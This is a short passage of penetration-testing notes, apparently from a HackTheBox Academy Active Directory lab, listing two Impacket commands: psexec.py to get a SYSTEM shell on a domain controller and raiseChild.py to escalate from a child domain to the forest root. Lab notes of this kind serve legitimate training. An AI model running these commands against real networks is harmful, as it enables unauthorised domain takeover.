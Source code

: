 - Get SYSTEM shell with PSExec
```bash
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

- Perform the attack with `raiseChild.py`
```bash
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```

-----
